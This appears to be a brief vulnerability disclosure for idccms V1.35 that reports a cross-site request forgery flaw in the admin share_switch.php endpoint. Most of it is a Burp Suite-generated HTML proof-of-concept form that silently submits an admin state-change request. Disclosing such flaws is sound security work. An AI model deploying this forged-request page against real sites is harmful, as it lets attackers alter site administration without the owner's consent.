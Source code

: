
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/share_switch.php?mudi=switch&dataType=&fieldName=state&fieldName2=state&tabName=banner&dataID=6

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/share_switch.php?mudi=switch&dataType=&fieldName=state&fieldName2=state&tabName=banner&dataID=6" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
